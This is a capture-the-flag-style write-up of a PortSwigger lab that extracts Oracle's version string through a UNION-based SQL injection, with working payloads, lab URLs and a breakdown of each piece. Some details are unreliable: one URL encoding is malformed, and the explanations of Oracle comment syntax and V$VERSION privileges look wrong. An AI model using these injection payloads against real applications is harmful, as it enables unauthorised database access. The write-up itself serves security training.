


# SQL injection attack, querying the database type and version on Oracle

```
❓

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Hint

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

For more information, see our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
```

By clicking on one of the product filters, you get URL parameter called `category=`. We can test and verify that it is vulnerable to SQLi by using the payload below:

```sql
# Always true
' OR 1=1 --
```

```html
https://0aee008d04d322018006f816007200d7.web-security-academy.net/filter?category=%27%OR%201=1%20--
```

As you can see, all products are listed with the payload above. If you change the payload to `' OR 1=2` which is always false then none of the product items would be listed.



```sql
' UNION SELECT banner,'x'FROM v$version-- -
```

```html
https://0aee008d04d322018006f816007200d7.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20banner,%27x%27FROM%20v$version--%20-
```



**Payload**

```sql
' UNION SELECT banner,'x' FROM v$version-- -
```

| **Piece** | **What it does** | **Oracle-specific note** |
|---|---|---|
| ' | **Closes** the quoted string that wraps the original WHERE category = '... value. | Works because the parameter is embedded in a string literal. |
| UNION SELECT | Appends a *second* SELECT so its rows are returned **in the same HTTP response**. | Oracle requires the same number and compatible data-types as the first query. |
| banner,'x' | • banner – first column in [V\$VERSION](https://docs.oracle.com/cd/E11882_01/server.112/e40402/dynviews_3120.htm) that holds the product banner text.• 'x' – dummy string to match the second column of the original query (its value isn’t shown). | If the visible column were the second one, you’d swap them. |
| FROM v\$version | Reads Oracle’s dynamic performance view that lists version strings, for example:• *Oracle Database 11g Express Edition …*• *PL/SQL Release 11.2.0.2.0 …* | Unlike MySQL’s information\_schema, Oracle puts version info here. |
| -- - | -- starts a comment; the trailing space or hyphen acts as the *newline* Oracle expects, so everything after it is discarded. | Without the space/-, Oracle would keep parsing and error. |

**Why it succeeds**

1. You already discovered (with ORDER BY / NULL tests) that the underlying query shows **two string-compatible columns**.
2. UNION merges your result set with the original, so the web page simply prints whatever you selected.
3. Because every user in Oracle normally has SELECT on V\$VERSION via the SELECT\_CATALOG\_ROLE (or the lab grants it), the query runs without extra privileges.

---

### **Learn (and practice) more**

| **Topic** | **Resource** |
|---|---|
| UNION-based SQLi technique & determining column count | PortSwigger Academy: *SQL injection UNION attacks* |
| Full walk-through of an **Oracle** UNION-SQLi lab | PortSwigger Lab: *Listing the database contents on Oracle* |
| Oracle catalog view V\$VERSION and its BANNER column | Oracle Docs – *V\$VERSION View* |
| Querying version info via V\$VERSION (step-by-step) | Beekeeper Studio blog – *How to check Oracle version* |
| General SQL-injection fundamentals & testing guide | OWASP: *SQL Injection* & *WSTG – Testing for SQLi* |

Work through the PortSwigger Oracle labs after reading the docs—they mirror what you just did and deepen muscle memory.
